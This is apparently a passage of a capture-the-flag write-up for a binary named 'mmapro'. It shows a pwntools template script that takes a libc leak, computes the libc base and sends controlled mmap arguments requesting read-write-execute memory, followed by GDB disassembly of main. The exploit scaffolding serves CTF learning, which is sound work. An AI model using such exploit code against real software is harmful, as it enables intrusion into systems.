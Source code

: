 - Check the above code for reference, incase you forgot the syntax like me 🙂 
- The only advantage is we can controll all these six args.
- First let's mmap a random region and see what the program does after mmaping.

```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF("mmapro_patched",checksec=False)
libc = ELF("libc.so.6",checksec=False)
ld = ELF("ld-2.37.so",checksec=False)

p = elf.process()
mmap_leak = u64(p.recv())
libc_base = mmap_leak - 1138464
log.info(f'mmap leak: {hex(mmap_leak)}')
log.info(f'libc base: {hex(libc_base)}')

addr   = 0x0
length = 0x1000
prot   = 0x7
flags  = 0x22
fd     = -1
offset = 0

payload = flat(
    addr,
    length,
    prot,
    flags,
    fd,
    offset
)

input('> attach GDB')
p.sendline(payload)
p.interactive()
```
 <br>

- This is a template script, so we can work on this in future.

```css
   0x00005fbc5bc6921e <+133>:	mov    rdi,rdx
   0x00005fbc5bc69221 <+136>:	mov    r9,rax
   0x00005fbc5bc69224 <+139>:	mov    edx,r10d
   0x00005fbc5bc69227 <+142>:	call   0x5fbc5bc69060
   0x00005fbc5bc6922c <+147>:	mov    eax,0x0
   0x00005fbc5bc69231 <+152>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00005fbc5bc69235 <+156>:	sub    rdx,QWORD PTR fs:0x28
   0x00005fbc5bc6923e <+165>:	je     0x5fbc5bc69245 <main+172>
   0x00005fbc5bc69240 <+167>:	call   0x5fbc5bc69090
   0x00005fbc5bc69245 <+172>:	leave
   0x00005fbc5bc69246 <+173>:	ret

> b *main+142
```
 <br>
